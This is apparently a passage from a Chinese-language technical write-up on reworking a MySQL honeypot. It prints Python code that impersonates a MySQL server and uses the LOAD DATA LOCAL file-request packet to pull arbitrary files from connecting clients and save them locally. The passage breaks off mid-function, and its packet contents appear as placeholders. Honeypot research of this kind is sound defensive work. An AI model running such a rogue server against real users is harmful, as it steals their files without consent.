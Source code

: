 于是，根据<https://github.com/qigpig/MysqlHoneypot>中的部分代码，进行进一步的完善和修改，就有了下面的内容

## 0x02 工具相关

### 2.1 代码相关

开门见山，本系统代码乍一看很完美，但以普遍理性而论，仅适用于读取windows系统的文件。

先看核心代码

```bash
def mysql_get_file_content(filename,conn,address):
    logpath = os.path.abspath('.') + "/log/" + address[0]
    if not os.path.exists(logpath):
        os.makedirs(logpath)
    conn.sendall("xxx")
    try:
        conn.recv(1024000)
    except Exception as e:
        print(e)

    try:
        conn.sendall("xx")
        res1 = conn.recv(1024000)
        # SHOW VARIABLES
        if 'SHOW VARIABLES' in res1:
            conn.sendall("xxx")
            res2 = conn.recv(9999)
            if 'SHOW WARNINGS' in res2:
                conn.sendall("xxx")
                res3 = conn.recv(9999)
                if 'SHOW COLLATION' in res3:
                    conn.sendall("xxx")
                    res4 = conn.recv(9999)
                    if 'SET NAMES utf8' in res4:
                        conn.sendall("xxx")
                        res5 = conn.recv(9999)
                        if 'SET character_set_results=NULL' in res5:
                            conn.sendall("xxx")
                            conn.close()
                    else:
                        conn.close()
                else:
                    conn.close()
            else:
                conn.close()
        else:
            try:
                wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
                conn.sendall(wantfile)
                content=''
                while True:
                    data = conn.recv(1024)
                    print len(data)
                    content += data
                    if len(data) < 1024:
                        print 'ok'
                        break
                    
                conn.close()
                item=logpath + "/" + filename.replace("/", "_").replace(":", "")+'_'+str(random.random())
                if len(content) > 6:
                    with open(item, "w") as f:
```